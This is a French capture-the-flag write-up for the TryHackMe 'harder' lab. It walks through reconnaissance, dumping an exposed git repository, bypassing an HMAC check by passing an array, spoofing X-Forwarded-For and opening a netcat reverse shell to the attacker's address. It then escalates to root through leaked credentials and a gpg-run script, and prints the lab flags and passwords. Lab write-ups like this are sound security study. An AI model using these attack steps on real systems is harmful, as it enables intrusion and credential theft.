








# harder #

## Task 1 Hack your way and try harder ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.226.220 harder.thm' > /etc/hosts"
[sudo] Mot de passe de tim : 

tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A harder.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-31 20:58 CEST
Nmap scan report for harder.thm (10.10.226.220)
Host is up (0.070s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE VERSION
2/tcp  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f8:8c:1e:07:1d:f3:de:8a:01:f1:50:51:e4:e6:00:fe (RSA)
|   256 e6:5d:ea:6c:83:86:20:de:f0:f0:3a:1e:5f:7d:47:b5 (ECDSA)
|_  256 e9:ef:d3:78:db:9c:47:20:7e:62:82:9d:8f:6f:45:6a (ED25519)
22/tcp open  ssh     OpenSSH 8.3 (protocol 2.0)
| ssh-hostkey: 
|   4096 cf:e2:d9:27:d2:d9:f3:f7:8e:5d:d2:f9:9d:a4:fb:66 (RSA)
|_  256 1e:45:7b:0a:b5:aa:87:e6:1b:b1:b7:9f:5d:8f:85:70 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Error
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=8/31%OT=2%CT=1%CU=32434%PV=Y%DS=2%DC=T%G=Y%TM=612E7C25
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=FE%GCD=1%ISR=10E%TI=Z%CI=Z%II=I%TS=A)OPS(O
OS:1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST11N
OS:W6%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R
OS:=Y%DF=Y%T=40%W=F507%O=M506NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%
OS:RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y
OS:%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R
OS:%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=
OS:40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S
OS:)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 5900/tcp)
HOP RTT      ADDRESS
1   33.09 ms 10.9.0.1
2   73.38 ms harder.thm (10.10.226.220)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 83.02 seconds

```

On remarque plusieurs service : 
Le service SSH sur le port 2 et 22.    
Le service HTTP sur le port 80.    



Sur la page principale on à une erreur 404.  



Dans le mode développeur de Firefox dans Network Header on voit un nom de domaine qui est : pwd.harder.local   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.226.220 pwd.harder.local' > /etc/hosts"
```

On change le nom de domaine.     



Maintenant que l'on a le bon nom de domaine on nous demande des identifiants.   

J'ai pas d'indice pour les identifiants.     

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://pwd.harder.local -w /usr/share/dirb/wordlists/common.txt -q
/.git/HEAD            (Status: 200) [Size: 23]
/index.php            (Status: 200) [Size: 19926]
````

On remarque un dépot git sur le site.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ mkdir git
tim@kali:~/Bureau/tryhackme/write-up$ cd git
tim@kali:~/Bureau/tryhackme/write-up/git$ git-dumper http://pwd.harder.local/.git/ ./
[-] Testing http://pwd.harder.local/.git/HEAD [200]
[-] Testing http://pwd.harder.local/.git/ [403]
[-] Fetching common files
[-] Fetching http://pwd.harder.local/.gitignore [200]
[-] Fetching http://pwd.harder.local/.git/COMMIT_EDITMSG [200]
[-] Fetching http://pwd.harder.local/.git/description [200]
[-] Fetching http://pwd.harder.local/.git/hooks/applypatch-msg.sample [200]
[-] Fetching http://pwd.harder.local/.git/hooks/commit-msg.sample [200]
[-] Fetching http://pwd.harder.local/.git/hooks/post-commit.sample [404]
[-] http://pwd.harder.local/.git/hooks/post-commit.sample responded with status code 404
[-] Fetching http://pwd.harder.local/.git/hooks/pre-applypatch.sample [200]
[-] Fetching http://pwd.harder.local/.git/hooks/post-update.sample [200]
[-] Fetching http://pwd.harder.local/.git/hooks/pre-commit.sample [200]
[-] Fetching http://pwd.harder.local/.git/hooks/post-receive.sample [404]
[-] http://pwd.harder.local/.git/hooks/post-receive.sample responded with status code 404
[-] Fetching http://pwd.harder.local/.git/hooks/pre-push.sample [200]
[-] Fetching http://pwd.harder.local/.git/hooks/pre-rebase.sample [200]
[-] Fetching http://pwd.harder.local/.git/hooks/pre-receive.sample [200]
[-] Fetching http://pwd.harder.local/.git/hooks/prepare-commit-msg.sample [200]
[-] Fetching http://pwd.harder.local/.git/hooks/update.sample [200]
[-] Fetching http://pwd.harder.local/.git/info/exclude [200]
[-] Fetching http://pwd.harder.local/.git/objects/info/packs [404]
[-] http://pwd.harder.local/.git/objects/info/packs responded with status code 404
[-] Fetching http://pwd.harder.local/.git/index [200]
[-] Finding refs/
[-] Fetching http://pwd.harder.local/.git/FETCH_HEAD [404]
[-] http://pwd.harder.local/.git/FETCH_HEAD responded with status code 404
[-] Fetching http://pwd.harder.local/.git/HEAD [200]
[-] Fetching http://pwd.harder.local/.git/ORIG_HEAD [404]
[-] http://pwd.harder.local/.git/ORIG_HEAD responded with status code 404
[-] Fetching http://pwd.harder.local/.git/info/refs [404]
[-] http://pwd.harder.local/.git/info/refs responded with status code 404
[-] Fetching http://pwd.harder.local/.git/config [200]
[-] Fetching http://pwd.harder.local/.git/logs/HEAD [200]
[-] Fetching http://pwd.harder.local/.git/logs/refs/remotes/origin/HEAD [404]
[-] http://pwd.harder.local/.git/logs/refs/remotes/origin/HEAD responded with status code 404
[-] Fetching http://pwd.harder.local/.git/logs/refs/heads/master [200]
[-] Fetching http://pwd.harder.local/.git/logs/refs/remotes/origin/master [404]
[-] http://pwd.harder.local/.git/logs/refs/remotes/origin/master responded with status code 404
[-] Fetching http://pwd.harder.local/.git/logs/refs/stash [404]
[-] http://pwd.harder.local/.git/logs/refs/stash responded with status code 404
[-] Fetching http://pwd.harder.local/.git/refs/heads/master [200]
[-] Fetching http://pwd.harder.local/.git/refs/remotes/origin/HEAD [404]
[-] http://pwd.harder.local/.git/refs/remotes/origin/HEAD responded with status code 404
[-] Fetching http://pwd.harder.local/.git/refs/remotes/origin/master [404]
[-] Fetching http://pwd.harder.local/.git/packed-refs [404]
[-] http://pwd.harder.local/.git/refs/remotes/origin/master responded with status code 404
[-] http://pwd.harder.local/.git/packed-refs responded with status code 404
[-] Fetching http://pwd.harder.local/.git/refs/wip/wtree/refs/heads/master [404]
[-] http://pwd.harder.local/.git/refs/wip/wtree/refs/heads/master responded with status code 404
[-] Fetching http://pwd.harder.local/.git/refs/wip/index/refs/heads/master [404]
[-] http://pwd.harder.local/.git/refs/wip/index/refs/heads/master responded with status code 404
[-] Fetching http://pwd.harder.local/.git/refs/stash [404]
[-] http://pwd.harder.local/.git/refs/stash responded with status code 404
[-] Finding packs
[-] Finding objects
[-] Fetching objects
[-] Fetching http://pwd.harder.local/.git/objects/04/7afea4868d8b4ce8e7d6ca9eec9c82e3fe2161 [200]
[-] Fetching http://pwd.harder.local/.git/objects/66/428e37f6bfaac0b42ce66106bee0a5bdf94d4e [200]
[-] Fetching http://pwd.harder.local/.git/objects/cd/a7930579f48816fac740e2404903995e0ff614 [200]
[-] Fetching http://pwd.harder.local/.git/objects/22/8694f875f20080e29788d7cc3b626272107462 [200]
[-] Fetching http://pwd.harder.local/.git/objects/00/00000000000000000000000000000000000000 [404]
[-] http://pwd.harder.local/.git/objects/00/00000000000000000000000000000000000000 responded with status code 404
[-] Fetching http://pwd.harder.local/.git/objects/ad/68cc6e2a786c4e671a6a00d6f7066dc1a49fc3 [200]
[-] Fetching http://pwd.harder.local/.git/objects/93/99abe877c92db19e7fc122d2879b470d7d6a58 [200]
[-] Fetching http://pwd.harder.local/.git/objects/6e/1096eae64fede71a78e54999236553b75b3b65 [200]
[-] Fetching http://pwd.harder.local/.git/objects/e3/361e96c0a9db20541033f254df272deeb9dba7 [200]
[-] Fetching http://pwd.harder.local/.git/objects/aa/938abf60c64cdb2d37d699409f77427c1b3826 [200]
[-] Fetching http://pwd.harder.local/.git/objects/c6/66164d58b28325393533478750410d6bbdff53 [200]
[-] Fetching http://pwd.harder.local/.git/objects/be/c719ffb34ca3d424bd170df5f6f37050d8a91c [200]
[-] Running git checkout .

```

On dump le dépot git.    

```bash
tim@kali:~/Bureau/tryhackme/write-up/git$ git checkout .
0 chemin mis à jour depuis l'index
tim@kali:~/Bureau/tryhackme/write-up/git$ ls -la
total 48
drwxr-xr-x 3 tim tim  4096 31 août  21:25 .
drwxr-xr-x 3 tim tim  4096 31 août  21:24 ..
-rw-r--r-- 1 tim tim 23820 31 août  21:25 auth.php
drwxr-xr-x 7 tim tim  4096 31 août  21:27 .git
-rw-r--r-- 1 tim tim    27 31 août  21:25 .gitignore
-rw-r--r-- 1 tim tim   431 31 août  21:25 hmac.php
-rw-r--r-- 1 tim tim   608 31 août  21:25 index.php
```

```php
tim@kali:~/Bureau/tryhackme/write-up/git$ head auth.php 
<?php
define('LOGIN_USER', "admin");
define('LOGIN_PASS', "admin");

define('LOGOUT_COMPLETE', "You've been successfully logged out.");
define('INCORRECT_USERNAME_PASSWORD', "Invalid login credentials!");
define('STARTER_GREETING', "Harder Corp. - Password Manager");
define('USERNAME', "Username");
define('PASSWORD', "Password");
define('ENTER_USERNAME', "Enter Username");

```

Dans le fichier auth on trouve les identifiants qui sont : admin et admin.   



On a le message ci-dessus quand om met les identifiants admin admin     

```php
tim@kali:~/Bureau/tryhackme/write-up/git$ cat hmac.php 
<?php
if (empty($_GET['h']) || empty($_GET['host'])) {
   header('HTTP/1.0 400 Bad Request');
   print("missing get parameter");
   die();
}
require("secret.php"); //set $secret var
if (isset($_GET['n'])) {
   $secret = hash_hmac('sha256', $_GET['n'], $secret);
}

$hm = hash_hmac('sha256', $_GET['host'], $secret);
if ($hm !== $_GET['h']){
  header('HTTP/1.0 403 Forbidden');
  print("extra security check failed");
  die();
}
?>
```

Ici on a un fichier qui nous intéresse  hmac.php.  

Il prend trois paramètres h, host, n.

Si h et host sont vide alors on a une message d'erreur. 
n est chiffré en sha256 avec une clef secret qui vient de secret.php, le résultat est stocké dans secret.    

host est chiffré en sha256 par secret le résultat est stocké dans hm.   
Si hm est different h alors on a un message d'erreur.   

Ici on peut exploiter un faille de hash_mac en passant un tableau.  
Regarder l'article [faille-hash_mac](https://www.securify.nl/blog/spot-the-bug-challenge-2018-warm-up)    

```bash
tim@kali:~/Bureau/tryhackme/write-up/git$ cat gener.php 
<?php
$resultat=hash_hmac('sha256','ma.bool',false);
print($resultat);
?>

tim@kali:~/Bureau/tryhackme/write-up/git$ php gener.php 
3213f635e37c57128ab80efc70c8de74c5ce0725b44ba64a421b23c32b47a41e
```

On génère la bonne chaîne avec la clef false.  

Quand on donnera un tableau à n la variable secret vaudra false.

Donc host sera chiffré avec false, comme h déjà été chiffre avec la même clef on aura la bonne réponse.  

On génère le bon lien
```text
http://pwd.harder.local/index.php?n[]=1&host=ma.bool&h=3213f635e37c57128ab80efc70c8de74c5ce0725b44ba64a421b23c32b47a41e
```



On met le lien on trouve un nouveau nom de domaine et des identifiants.    

Domaine : http://shell.harder.local    
Username : evs      
Mode de passe : 9FRe8VUuhFhd3GyAtjxWn0e9RfSGv7xm      

```bash
tim@kali:~/Bureau/tryhackme/write-up/git$ sudo sh -c "echo '10.10.226.220 shell.harder.local' >> /etc/hosts"
[sudo] Mot de passe de tim : 
```

On le nouveau nom de domaine.    



On s'identifie avec les identifiants précédent.    



On a un message d'erreur qui accepte que les personnes avec l'ip 10.10.10.x. 



Dans burpsuit on modifie l'header avec X-http://shell.harder.local/Forwarded-For: 10.10.10.2, pour faire croire que l'on vient de cette adresse ip.   

On tombe sur une page qui nous permet de passer des commandes.

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ..
```

On écoute sur le port 1234 pour se connecter au reverse shell.    

On passe la commande : 10.9.228.66 1234 -e /bin/sh
Ne pas oublier de mettre X-Forwarded-For: pour chaque requête.

 **Hack the machine and obtain the user Flag (user.txt)**

 ```bash
id
uid=1001(www) gid=1001(www) groups=1001(www)

ls /home/
evs
www

cat /home/evs/user.txt
7e88bf11a579dc5ed66cc798cbe49f76
```

On obtient un shell.
On voit qu'il existe un utilisateur evs.   
On lit le fichier user.txt et on a notre flag.   

Le flag est : 7e88bf11a579dc5ed66cc798cbe49f76     


**Escalate your privileges and get the root Flag (root.txt)**

```bash
python3 -c "import pty;pty.spawn('/bin/sh')"
 $ find / -name *.sh 2>/dev/null
find / -name *.sh 2>/dev/null
/usr/bin/findssl.sh
/usr/local/bin/run-crypted.sh
/etc/periodic/15min/evs-backup.sh
```

On cherche des fichiers qui sont utile.  

```bash
cat /etc/periodic/15min/evs-backup.sh
#!/bin/ash

# ToDo: create a backup script, that saves the /www directory to our internal server
# for authentication use ssh with user "evs" and password "U6j1brxGqbsUA$pMuIodnb$SZB4$bw14"
```

Dans le fichier evs-backup.sh on trouve des identifiants.   
Nom : evs
Mote de passe : U6j1brxGqbsUA$pMuIodnb$SZB4$bw14

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ssh evs@shell.harder.local 
evs@shell.harder.local's password: 
Welcome to Alpine!

The Alpine Wiki contains a large amount of how-to guides and general
information about administrating Alpine systems.
See <http://wiki.alpinelinux.org/>.

You can setup the system with the command: setup-alpine

You may change this message by editing /etc/motd.
harder:~$ find / -type f -name "*.sh" 2> /dev/null
/usr/bin/findssl.sh
/usr/local/bin/run-crypted.sh
/etc/periodic/15min/evs-backup.sh

harder:~$ cat /usr/local/bin/run-crypted.sh 
#!/bin/sh

if [ $# -eq 0 ]
  then
    echo -n "[*] Current User: ";
    whoami;
    echo "[-] This program runs only commands which are encypted for root@harder.local using gpg."
    echo "[-] Create a file like this: echo -n whoami > command"
    echo "[-] Encrypt the file and run the command: execute-crypted command.gpg"
  else
    export GNUPGHOME=/root/.gnupg/
    gpg --decrypt --no-verbose "$1" | ash
fi
```

On remarque dans le script il y a une clef quelque part.  

```bash
harder:/$ find / -name root@harder.* 2>/dev/null
/var/backup/root@harder.local.pub
```

On trouve la clef.  

```bash
harder:/$ harder:~$ gpg --import /var/backup/root@harder.local.pub
-ash: harder:~$: not found
harder:/$ gpg --import /var/backup/root@harder.local.pub
gpg: directory '/home/evs/.gnupg' created
gpg: keybox '/home/evs/.gnupg/pubring.kbx' created
gpg: /home/evs/.gnupg/trustdb.gpg: trustdb created
gpg: key C91D6615944F6874: public key "Administrator <root@harder.local>" imported
gpg: Total number processed: 1
gpg:               imported: 1
```

On importe la clef.  

```bash
harder:/$ cd /tmp
harder:/tmp$ echo -n cat /root/root.txt > command

harder:/tmp$ gpg -er root command 
gpg: 6C1C04522C049868: There is no assurance this key belongs to the named user

sub  cv25519/6C1C04522C049868 2020-07-07 Administrator <root@harder.local>
 Primary key fingerprint: 6F99 621E 4D64 B6AF CE56  E864 C91D 6615 944F 6874
      Subkey fingerprint: E51F 4262 1DB8 87CB DC36  11CD 6C1C 0452 2C04 9868

It is NOT certain that the key belongs to the person named
in the user ID.  If you *really* know what you are doing,
you may answer the next question with yes.

Use this key anyway? (y/N) y
```

On met la commande que l'on veut passer dans un fichier command.   
On encode le fichier command.   

```bash
harder:/tmp$ ls             
client_temp                      command.gpg                      proxy_temp_path                  sess_dv9q9a2oqv6iunj6dh4s80tmqp  uwsgi_temp
command                          fastcgi_temp                     scgi_temp                        sess_utu0095om9rr89vk98njrm2t2t

harder:/tmp$ execute-crypted command.gpg
gpg: encrypted with 256-bit ECDH key, ID 6C1C04522C049868, created 2020-07-07
      "Administrator <root@harder.local>"
3a7bd72672889e0756b09f0566935a6c
```

On exécute notre commande est on a notre flag.  

La réponse est : 3a7bd72672889e0756b09f0566935a6c   
